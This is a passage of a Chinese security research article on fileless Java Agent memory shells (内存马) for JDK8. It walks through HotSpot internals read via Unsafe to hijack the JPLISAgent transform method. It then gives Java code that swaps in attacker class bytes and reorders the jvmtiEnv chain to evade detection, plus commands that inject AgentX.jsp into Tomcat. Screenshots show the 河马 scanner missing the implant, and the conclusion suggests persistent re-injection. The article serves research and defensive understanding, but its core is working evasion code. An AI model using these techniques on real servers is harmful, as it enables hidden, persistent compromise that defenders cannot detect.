java unsafe 所提供的方法中，有一类方法形如: `getLong(Object o, long offset)`，这个方法是啥意思？它会读取 `jobject` 的地址 + 一个指定的偏移处的内存数据。跟一下代码我们就会发现，这里的 `jobject` 类型其实就是 [oop\*](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/runtime/jniHandles.hpp#L175)，而这个方法就是读取的 `oop + offset` 处的数据，可参考 [index\_oop\_from\_field\_offset\_long](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/prims/unsafe.cpp#L121)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126115300-4b2bdb54-8c0f-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126115308-4fd7dc0c-8c0f-1.png)

而 `oop` 其对应的结构就是 [oopDesc](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/oops/oop.hpp#L59)，从中我们可以看到一个联合体中，有`Klass` 的地址。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126115326-5a522b10-8c0f-1.png)

可以看到这个联合体中，Klass 的地址又分为 `klass` 与 `compressed_klass`。这便是 jvm 的“压缩类指针”机制，在 64 位的 jvm 中默认开启。不过可以通过 `-XX:-UseCompressedClassPointers` 来禁用。那我们要用哪个变量作为 `klass` 的地址呢？

参考 [oopDesc::klass](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/oops/oop.inline.hpp#L72)，可以看到有一个关键的变量 `UseCompressedClassPointers`，这便对应了 jvm 的启动参数中的 `-XX:-UseCompressedClassPointers`。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126115419-79d4caa6-8c0f-1.png)

而这个变量存在于 `libjvm.so` 的符号表中，所以我们可以直接去内存中读取该变量的值，来决定我们需要怎样得到 `klass` 的地址。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126115433-822ae1fe-8c0f-1.png)

对于未经压缩的 `klass` 地址好说，直接用即可，对于“压缩”后的 klass 地址，要如何使用呢？

参考代码[`Klass::decode_klass_not_null(narrowKlass v)`](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/oops/klass.inline.hpp#L62) ，其核心转换逻辑就是:

```plain
Universe::narrow_klass_base() + (v << Universe::narrow_klass_shift())
```

`Universe::narrow_klass_shift()` 对应了 `_narrow_klass._shift`、`Universe::narrow_klass_base()` 对应了 `_narrow_klass._base`，而 [`_narrow_klass`](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/memory/universe.cpp#L156C1-L156C49) 被定义为[静态全局变量](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/memory/universe.hpp#L191)，这说明什么？说明我们还是可以从符号表中找到对应的偏移，进而直接解析内存，拿到 `narrow_klass_base` 以及 `narrow_klass_shift`，进而求得真实的 `klass` 地址！

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126115503-9411520e-8c0f-1.png)

`klass` 终于搞定了，接下来就该获取 `jmethod` 了。

#### 获取 jmethod

`klass`只是顶级的父类，真正用的是 [InstanceKlass](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/oops/instanceKlass.hpp)，而该类中所有的方法便存在于 [methods](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/oops/instanceKlass.hpp#L273) 中。而这个 [Method](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/oops/method.hpp#L102) 结构中，又有 [constMethod](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/oops/constMethod.hpp#L178)，这个 `constMethod`便是不包含任何状态的，“真正”的类方法，包括方法名、编译后的类字节码等信息。

而我们的目标是从 `methods` 数组中找到 `transformer` 方法，最直接想到的便是通过方法名来寻找，例如下面，层层解析至对应的方法名：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126115536-a7a51b0c-8c0f-1.png)

不过从上面的截图中也可以看到，`constMethod` 中并没有直接的方法名“字符串”，有的只是 `name_index`，也就是符号索引，例如截图中的第二个方法，对应的 `name_index` 为 `0x71`。这个索引就在 [ConstantPool](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/oops/constantPool.hpp#L84) 也就是上图中的 `ConstMethod._constants` 之后的第 `0x71` 个 [Symbol](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/oops/symbol.hpp#L116) 处，图中的 `0x58` 便是 `ConstantPool` 结构的大小。

若我们在代码中也这样去直接解析到具体的方法名，显然太复杂了，多一层索引，便多一分不稳定。那么是不是可以不用名字去标识类，而用其他的，比如参数数量？

可以注意到 `jdk8` 中的 `transformer` 方法参数数量为 7 个，其他方法的参数数量均不是 7 个。所以，我们可以直接用 [`_size_of_parameters`](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/oops/constMethod.hpp#L225)来定位到 `transformer` 方法，这样的话，我们只需要获取到 `ConstMethod` 这一层即可，无需进一步解析 `Symbol`。

逻辑大致理清楚了，我们现在已经可以从 `java` 对象定位到内存中对应的 `method`方法了。不过，回过头来，我们需要的是 `jmethod`。`jmethod`是什么？可以参考 [jni\_GetMethodID](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/prims/jni.cpp#L1619)，不过相关的代码虽然复杂繁琐，但抛开其他的逻辑，`jmethod`其实就是这个 [Method](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/hotspot/src/share/vm/oops/method.hpp#L102) 的地址。所以当我们知道是哪个方法后，直接拿到相关的方法地址即可。

PS: 这里其实还有些坑，大概是涉及到 JVM 的优化机制

### 兼容性问题

上面将整体逻辑理清楚了，但是我们用到了大量的内存操作。这就会带来一个问题，不同版本甚至同一版本但是不同编译参数的 jdk 在其实现细节上可能会有差异。例如一个非常重要的结构 `InstanceKlass`，其本身继承自 `Klass`，而 `Klass` 又继承自 `Metadata`。这就会导致，只要编译出来的 `Klass` 或是 `Metadata` 的结构与我们测试时用的环境有一丁点改变，我们便会定位失败。这种问题要如何解决呢？

我们可以借助一些比较明显“常量”来辅助定位。我们在 `InstanceKlass` 中的目标是定位到 `_methods` ，而这个 `_methods` 字段之上的不远处，存在两个相对“固定”的用来标识当前类版本号的字段：`_minoro_version`以及`_major_version`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126120500-f8593f96-8c10-1.png)

jdk1.0.2 的 major\_version 为 45，jdk21 的 major\_version 为 65。而 minor\_version 在jdk 1.2 之后基本上一直是 0。我们可以先假定 `_minor_version` 的位置，然后在其附近寻找符合该规则的 version 字段。从而真正确定 `_minor_version` 的位置。

确定 `_minor_version` 位置后，可以看到 `_methods` 就在他的不远处，根据 `InstanceKlass` 的结构，计算一下 `_methods` 相对于 `_minor_version` 的偏移。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126120527-0843d970-8c11-1.png)

最终计算得到的偏移为 `0x74`，再考虑字节对齐（当然，如果用户手动编译的 jdk 并且在编译时特地调整对齐方式，这里就会有问题了。不过绝大部分情况下，应该是没问题的）:

```plain
// Data Alignment
if (methodsOffset % 8 != 0){
    methodsOffset = 8 * ((methodsOffset / 8) + 1);
}
```

最终计算出最终的 `_methods` 地址。

但是，需要注意，可以看到在 `_methods` 前，还有 `NOT_PRODUCT(int _verify_count)`，而这个字段一般来说在编译为 debug 模式下时才会生效。但我们无法真正的确定是有还是无。不过 `_methods`之后的字段为 `_default_methods`，意为 “从接口继承的方法”，而我们的 `InstrumentImpl` 没有继承，所以，当 `_verify_count`字段不存在时，我们会取到 `0`，此时取上一个地址作为 `_methods`即可。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126120644-35e62266-8c11-1.png)

至此，我们便完成了 `_methods` 位置的确定，顺便完成了 `NOT_PRODUCT` 宏定义的确定。用类似的方式，便可以以一个相对稳定的方式，定位到我们需要的变量处。

目前该代码理论上来说适配了 jdk8 linux 下的所有 64 位版本（包括 arm64），可以通过 `java -cp ${workdir}/app/target/app-1.0-SNAPSHOT.jar:${workdir}/memshell-demo/ com.rzte.agentcrack.App AgentA` 来测试。

debug 模式下的 jdk8 ：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126120718-4a5ba040-8c11-1.png)

正常的 jdk `1.8.0_181`:

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126120730-51a9c4e4-8c11-1.png)

arm64 下的 `jdk 1.8.0_202`:

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126120744-59ac8bf4-8c11-1.png)

## 一定要有 transformer 吗

在上面的 agent 构造中，我们还是基于 `InstrumentationImpl` 这个对象去构造的。我们需调用 `addTransformer` 在 [mRetransfomableTransformerManager](https://github.com/openjdk/jdk8u/blob/9499e54ebbab17b0f5e48be27c0c7f90806a3c40/jdk/src/share/classes/sun/instrument/InstrumentationImpl.java#L55) 中添加自己的一个 `ClassFileTransformer` 实现类。这样会带来什么问题？防御者完全可以拦截 `addTransformer` 方法，也可以检测 `ClassFileTransformer` 的实现类，从而找到我们自己定义的这个 `ClassFileTransformer`。这两个特征都比较明显。

我们回过头来继续仔细看 [JPLISAgent](https://github.com/openjdk/jdk8u/blob/jdk8u121-b13/jdk/src/share/instrument/JPLISAgent.h#L100) 的结构，从中我们可以注意到有两个变量: `jobject mInstrumentationImpl` 、`jmethodID mTransform`。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126120816-6cdd3fc0-8c11-1.png)

从 [transformClassFile](https://github.com/openjdk/jdk8u/blob/master/jdk/src/share/instrument/JPLISAgent.c#L833) 中我们可看到，在类进行转换时，其实是调用的 `mInstrumentationImpl` 中的 `mTransform` 方法。那如果我们把这两个字段替换成我们自己定义的一个类以及方法呢？是不是就可以创建一个“相对”来说，没什么特征的类了。方法名也无需是 `transform` ，我们只需要保证方法可以正常的接收 6 个参数即可。

```plain
class Hack{
    // private byte[] transform(ClassLoader loader, String classname, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer, boolean isRetransformer) {
    private byte[] r(Object loader, Object classname, Object classBeingRedefined, Object protectionDomain, Object classfileBuffer, boolean isRetransformer) {
        if (!"com/rzte/agentcrack/T".equals(classname)){
            return null;
        }

        System.out.println("will hack the class: " + classname);
        String data = "yv66vgAAADQAKAoABAAVCQAWABcIABgHABkKABoAGwoAHAAdBwAeAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBABdMY29tL3J6dGUvYWdlbnRjcmFjay9UOwEAA3J1bgEABChJKVYBAAFpAQABSQEAClNvdXJjZUZpbGUBAAZULmphdmEMAAgACQcAHwwAIAAhAQBIdGhlIGNsYXNzIGhhcyBiZWVuIGhhY2sgPT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PiAlMmQKAQAQamF2YS9sYW5nL09iamVjdAcAIgwAIwAkBwAlDAAmACcBABVjb20vcnp0ZS9hZ2VudGNyYWNrL1QBABBqYXZhL2xhbmcvU3lzdGVtAQADb3V0AQAVTGphdmEvaW8vUHJpbnRTdHJlYW07AQARamF2YS9sYW5nL0ludGVnZXIBAAd2YWx1ZU9mAQAWKEkpTGphdmEvbGFuZy9JbnRlZ2VyOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAZwcmludGYBADwoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9pby9QcmludFN0cmVhbTsAIQAHAAQAAAAAAAIAAQAIAAkAAQAKAAAALwABAAEAAAAFKrcAAbEAAAACAAsAAAAGAAEAAAADAAwAAAAMAAEAAAAFAA0ADgAAAAkADwAQAAEACgAAAEMABgABAAAAFbIAAhIDBL0ABFkDGrgABVO2AAZXsQAAAAIACwAAAAoAAgAAAAYAFAAHAAwAAAAMAAEAAAAVABEAEgAAAAEAEwAAAAIAFA==";
        return Base64.getDecoder().decode(data);
    }
}
```

测试一下: `java -cp ${workdir}/app/target/app-1.0-SNAPSHOT.jar:${workdir}/memshell-demo/ com.rzte.agentcrack.App AgentB`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126120847-7f5fc302-8c11-1.png)

## 尽可能“隐蔽”的攻击

在前面的 `transform` 流程的分析中，我们分析了类加载流程以及“攻防博弈”，那有没有什么办法可以实现更为“隐蔽”的方式修改运行中的 java 类呢？无论防守方在“防护模式”下还是例行检查时，均无法真正发现“敏感”类已经被我们修改了。

从之前的推论以及测试中，其实可以看出来，对于攻击方来说，在防守完善的情况下，只依靠 java agent 所提供的 `redefineClasses` 或是 `retransformClasse` 都可以被发现。

而我们所用的 java agent 技术其实就是在 `jvmtiEnv` 链的末尾追加一个 `retransformable jvmtiEnv`。`redefineClasses`方式不用再多说了，对于`retransformClasses`这种方式之所以被检测出来，就是因为检测方的 `jvmtiEnv` 在我们的 `jvmtiEnv` 之后，所以可以“看”到被我们修改后的类的字节码。

所以，只要我们可以保证，自己的 `jvmtiEnv` 一直在链末尾即可，或者说，负责转换的代码，在“链”末尾即可。

所以问题比较简单了，有多种方式可以做到，比如我们可以在转换前，判断自己是否处于 `jvmtiEnv` 链末尾，若不在末尾，则将自己移动到末尾。然后本次不转换，待下一次轮到自己时，再进行转换，并结束链。

简单实现了一下，参考代码：

```plain
class Hack{

    // 用来保证自己在链的末尾
    private boolean clearFlag = false;

    private byte[] r(Object loader, Object classname, Object classBeingRedefined, Object protectionDomain, Object classfileBuffer, boolean isRetransformer) {
        if (clearFlag) { // 结束链
            AgentX.setTheNextJvmti(AgentX.ownJvmtiEnvAddr, 0);
            clearFlag = false;
        }

        if (!"com/rzte/agentcrack/T".equals(classname)){
            return null;
        }

        if(!clearFlag){
            System.out.println("Check if our jvmtiEnv is at the end\n");

            // 如果自己不再链的最后方，将自己移动到链的最后方.并在下一次经过自己这个链的时候，结束链
            long nextJvmti = AgentX.getTheNextOfJvmtiEnv(AgentX.ownJvmtiEnvAddr);
            if (nextJvmti != 0){
                System.out.println("own jvmtienv no longer the last one, set it to the end.");

                long jvmtiPointer = AgentX.findTheJvmtiPointer(AgentX.ownJvmtiEnvAddr);
                if (jvmtiPointer == 0){ // failed
                    return null;
                }

                // 从链中剔除我们自己的这个 jvmtiEnv
                AgentX.putLong(jvmtiPointer, nextJvmti);

                long lastJvmti = AgentX.findTheLastJvmtiEnv();
                AgentX.setTheNextJvmti(lastJvmti, AgentX.ownJvmtiEnvAddr);

                System.out.println("now the jvmtiEnv chain is an infinite loop and needs to be terminated the next time it runs.");
                clearFlag = true;
                return null;
            }
        }


        // flag = true;
        System.out.println("will hack the class: " + classname);
        String data = "yv66vgAAADQAKAoABAAVCQAWABcIABgHABkKABoAGwoAHAAdBwAeAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBABdMY29tL3J6dGUvYWdlbnRjcmFjay9UOwEAA3J1bgEABChJKVYBAAFpAQABSQEAClNvdXJjZUZpbGUBAAZULmphdmEMAAgACQcAHwwAIAAhAQBIdGhlIGNsYXNzIGhhcyBiZWVuIGhhY2sgPT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PiAlMmQKAQAQamF2YS9sYW5nL09iamVjdAcAIgwAIwAkBwAlDAAmACcBABVjb20vcnp0ZS9hZ2VudGNyYWNrL1QBABBqYXZhL2xhbmcvU3lzdGVtAQADb3V0AQAVTGphdmEvaW8vUHJpbnRTdHJlYW07AQARamF2YS9sYW5nL0ludGVnZXIBAAd2YWx1ZU9mAQAWKEkpTGphdmEvbGFuZy9JbnRlZ2VyOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAZwcmludGYBADwoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9pby9QcmludFN0cmVhbTsAIQAHAAQAAAAAAAIAAQAIAAkAAQAKAAAALwABAAEAAAAFKrcAAbEAAAACAAsAAAAGAAEAAAADAAwAAAAMAAEAAAAFAA0ADgAAAAkADwAQAAEACgAAAEMABgABAAAAFbIAAhIDBL0ABFkDGrgABVO2AAZXsQAAAAIACwAAAAoAAgAAAAYAFAAHAAwAAAAMAAEAAAAVABEAEgAAAAEAEwAAAAIAFA==";
        return Base64.getDecoder().decode(data);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126121141-e6e1e424-8c11-1.gif)

### 内存马

类似在前面“借尸还魂”中所提到的内存马，我们也可以将这里的测试代码转换为 `jsp` 内存马。不过在构造 `JPLISAgent` 时，所用到的 `jobject` 有个不小的坑点在，我是将对象的地址直接放在 `unsafe.allocateMemory` 所分配的地址中作为 `jobject`。或许是因为 java 对象的垃圾处理机制，这个对象的地址其实会经常变换，从而导致有新的类加载时，我们 `jobject` 里放入的是一个过时的地址。当类进行转换时，导致 jvm 崩溃，参考 [transformClassFile](https://github.com/openjdk/jdk8u/blob/master/jdk/src/share/instrument/JPLISAgent.c#L833) 。

这里暂时没有深入去研究，用了一个简单的方式去处理。在内存马实现时，添加了定期检查、更新 jobject 有效性的逻辑，从而尽量避免遇到这种情况。参考代码: [AgentX.jsp](https://github.com/rzte/agentcrack/blob/main/memshell/AgentX.jsp)

```plain
# tomcat 容器内
# 启动 tomcat
./bin/catalina.sh run


# 宿主机，激活 内存马
java -cp ${workdir}/memshell-server/target/memshell-server-1.0-SNAPSHOT-jar-with-dependencies.jar com.rzte.agentcrack.App http://127.0.0.1:8080/demo/AgentX.jsp
```

注入成功：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126121340-2e1d2a6a-8c12-1.png)

此时，进行内存马检测，这里使用 河马 来测试:

可看到无法检测到关键类 `javax.servlet.http.HttpServlet` 被修改，同时检测后，也可以看到在 `javax.servlet.http.HttpServlet` 类中注入的内存马仍然有效：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126121357-386cd6fa-8c12-1.png)

作为对比，可以试试针对之前 `NoAgent.jsp` 的检测效果：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231126121412-4121f64a-8c12-1.png)

## 结语

本文从类加载流程入手，分析了 Java Agent 相关的一些操作中所涉及的技术细节，以及攻防对抗理论。并进一步在不落地文件的情况下，实现了两类新的 Java Agent 内存马。在 `AgentX.jsp` 中也做到了让（基于 Java Agent 技术的）内存马查杀工具无论在事前还是事后均无法关键类已被修改。

不过，本文主要的目的还是提供理论依据，所提供的攻击代码仅仅是 demo，并不会保证绝对稳定。而我们了解了技术细节后，便可以做到真正的知己知彼，在攻防问题上占据更多的主动权。比如寻找一些特定的攻击方式，例如上文中提到的 `NoAgent.jsp` 这种方式注入的内存马，可以被内存马检测工具扫描到。那么我们是不是可以在修改关键类后，将自身卸载，并添加守护线程去定期检测之前的修改是否被回滚，若已被回滚，则重新在链末尾注入一次即可，这样的话，即便防御者进行内存马扫描，也无法发现我们所注入的内存马，且我们所注入的内存马并不会随着防御者的扫描而失效。类似的“微操”还可以有很多，大家可以相互探讨。

## 参考

-   [openjdk-jdk8u](https://github.com/openjdk/jdk8u/)
-   [Java Object Layout](https://github.com/openjdk/jol/)
-   [基于javaAgent内存马检测查杀指南](https://mp.weixin.qq.com/s/Whta6akjaZamc3nOY1Tvxg#at)
-   [如何优雅的注入 Java Agent 内存马](https://paper.seebug.org/1945/)
-   [Java 内存攻击技术漫谈](https://paper.seebug.org/1678/)
-   [当杀疯了的内存马遇到河马](https://www.wangan.com/p/7fy78ye2870145d7)
